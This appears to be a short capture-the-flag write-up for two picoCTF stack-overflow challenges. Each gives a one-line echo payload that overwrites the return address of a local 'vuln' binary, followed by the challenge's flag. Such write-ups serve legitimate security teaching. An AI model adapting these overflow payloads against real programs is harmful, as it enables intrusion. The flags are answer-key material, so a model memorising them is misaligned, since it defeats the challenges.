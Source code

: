 # NewOverFlow-1

```
echo -e 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB\xE7\x07\x40\x00\x00\x00\x00\x00\x67\x07\x40\x00\x00\x00\x00\x00' | ./vuln
```

Flag: `picoCTF{th4t_w4snt_t00_d1ff3r3nt_r1ghT?_1a8eb93a}`

# NewOverFlow-2

```
echo -e 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB\xCD\x08\x40\x00\x00\x00\x00\x00\x4D\x08\x40\x00\x00\x00\x00\x00' | ./vuln
```

Flag: `picoCTF{r0p_1t_d0nT_st0p_1t_df73a1da}`